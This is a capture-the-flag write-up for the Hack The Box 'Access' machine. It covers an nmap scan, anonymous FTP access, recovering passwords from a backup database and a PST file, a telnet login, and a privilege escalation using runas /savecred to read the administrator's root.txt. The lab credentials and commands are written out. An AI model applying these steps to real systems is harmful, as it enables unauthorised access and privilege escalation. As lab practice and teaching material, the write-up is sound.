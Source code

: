 # Access Box:

## Nmap scan:
* The nmap scan reveals the services  
```js
  $ nmap -sS 10.10.10.98
  Results:
    Port 21 -> FTP
    Port 23 -> Telnet
    Port 80 -> Website
```

## FTP:
* The ftp server supports anonymous read logins.
* Login as user "anonymous" and type any password you want.
* Once logged in, there are two folders:
  * Backups:
    * backup.mdb
  * Engineers
    * Access Control.zip
* Use strings on backup.md to obtain the password for the zip file:
  * Should be "access4u@security"
* The zip file contains an outlook data file. You can import it into outlook or use a standard PST viewer to look at the contents.
  * The file reveals that the password to the "security" account is "4Cc3ssC0ntr0ller".

## Telnet:
* Now that we have the password, we can go ahead and telnet into the machine.
* Run:
```js
  $ telnet 10.10.10.98
  User: security
  Password: 4Cc3ssC0ntr0ller
```
* Going to security's desktop folder, there is a file called user.txt which contains the hash.

## Priv escalation:
### Enumeration:
* **Commands used:**
```js
  net users -> Enumerate all users on the system
  net user administrator -> Enumerate permissions for a specific user 
```
* If we enumerate the administrator account, we find that the administrator doesn't require a password.
* This means we can execute commands on the system as the administrator.
* We can use a tool called **runas**.

## Obtaining root.txt:
* The idea is to use the administrator account to copy the root.txt file into a folder that we can access.
* The directory that we are currently in is "c:/users/security".
* To preserve this state, we used the /env switch.
* **Commands used:**
```js
  runas /env /savecred /user:ACCESS\administrator 
  "cmd.exe /K more \"c:/users/Administrator/Desktop/root.txt\" > root.txt"
```

## What I learned:
* To see the owner of all files and directories:
```js
  dir /q
```
